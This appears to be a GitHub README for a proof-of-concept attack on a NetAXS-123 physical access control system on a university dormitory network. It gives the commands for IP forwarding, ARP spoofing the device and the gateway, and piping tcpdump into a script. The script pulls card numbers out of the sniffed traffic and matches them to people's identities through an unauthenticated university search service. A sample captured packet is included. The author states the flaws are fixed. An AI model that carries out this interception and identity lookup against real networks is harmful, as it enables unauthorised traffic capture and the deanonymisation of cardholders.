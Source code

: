 # NetAXS sniffer & identity checker POC
Dormitory on my university has a very nice hidden network, on which multiple devices are operating. One of them is NetAXS-123 physical access control system set to check the tokens on external database. This communication is absolutely clear and readable. This script is designed to be used on a linux device connected to this network. It takes a hex output from tcpdump, extracts needed data and tries to chceck the identity of person who used the reader.

The most important vulnerabilities which led to this attack has been already appropriately fixed.

## Do not forget to allow IPv4 forwarding
``` sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward' ```
## ARP spoofing:
``` sudo arpspoof -i eth0 [IP of NetAXS] -t [IP of Gateway] ```
``` sudo arpspoof -i eth0 [IP of Gateway] -t [IP of NetAXS] ```
## TCPDump /w our python script
``` sudo tcpdump -X -i eth0 tcp and ether src [MAC of NetAXS] | python3 netaxs_muni.py ```

script netaxs_sniff.py will take the 4 bytes from packet (marked as "CARD HERE" in the example), converts them to endianity compatible with IS of my university, then uses old search interface from "Úschovna" which is capable
of search based on the card number (even for unauthentized users!!). Because NetAXS gives us only last 4 bytes (ignores the first one), the script tries most used prefixes used on my university (06, 08, 0E)
If the úschovna search is successful, script prints out the Identity together with full card number.

example of packet sniffed from NetAXS 123:
```
19:30:36.842327 IP [IP of NetAXS] > [IP of Database server]: Flags [P.], seq 810:927, ack 100, win 8816, length 117
	0x0000:  4500 009d 155b 4000 4006 51b1 93fb cc7b  E....[@.@.Q....{
	0x0010:  93fb dedc 0bb9 e812 a28c c594 671c cde7  ............g...
	0x0020:  5018 2270 12ff 0000 0473 0000 014d 2302  P."p.....s...M#.
	0x0030:  0106 0001 0064 0005 5754 0001 5b1d 603c  .....d..WT..[.`<
	0x0040:  0000 0000 0003 0002 0306 0000 0002 0000  ................
	0x0050:  0000 CARD HERE 0000 0000 0000 0000 4d69  ..****........Na
	0x0060:  7261 6b5a 6164 6e69 5663 686f 6443 7465  meOfOurEMMarinRe
	0x0070:  636b 6132 6100 0000 0000 0000 0000 0000  ader............
	0x0080:  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0x0090:  0000 0000 0000 0000 0000 0403 58         ............X
```


